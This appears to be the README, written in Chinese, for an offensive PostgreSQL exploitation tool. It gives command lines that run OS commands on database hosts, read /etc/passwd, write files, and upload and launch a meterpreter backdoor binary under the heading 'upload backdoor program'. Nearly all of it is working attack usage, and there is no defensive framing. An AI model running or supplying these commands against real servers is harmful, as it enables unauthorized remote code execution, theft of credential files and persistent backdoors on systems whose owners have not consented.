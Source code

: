 # 使用

适用版本：PostgreSQL >= 9.3

## Windows 主机执行命令

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.154" -w "123456" -m "rce" -c "ipconfig" -e "GBK"
```

![img.png](img/img.png)

## Linux 主机执行命令

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "id" -e "UTF8"
```

![img.png](img/img2.png)

## Linux 主机读取文件

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "read" -s "/etc/passwd" -e "UTF8"
```

![img_1.png](img/img_1.png)

## 执行 SQL 语句

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "sql" -c "show server_version;" -e "UTF8"
```

![img_2.png](img/img_2.png)


## 写入字符串

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "text_upload" -s "this is test" -t "/tmp/1.txt"
# python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "cat /tmp/1.txt" -e "UTF8"
```

![img_3.png](img/img_3.png)

## 上传后门程序

上传：

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "bin_upload" -s "/tmp/meterpreter" -t "/tmp/hack"
```

![img_4.png](img/img_4.png)

执行：

```bash
python3 'PostgreSQL_tool.py' --host "192.168.163.149" -w "123456" -m "rce" -c "chmod +x /tmp/hack;/tmp/hack" -e "UTF8"
```

![img_5.png](img/img_5.png)
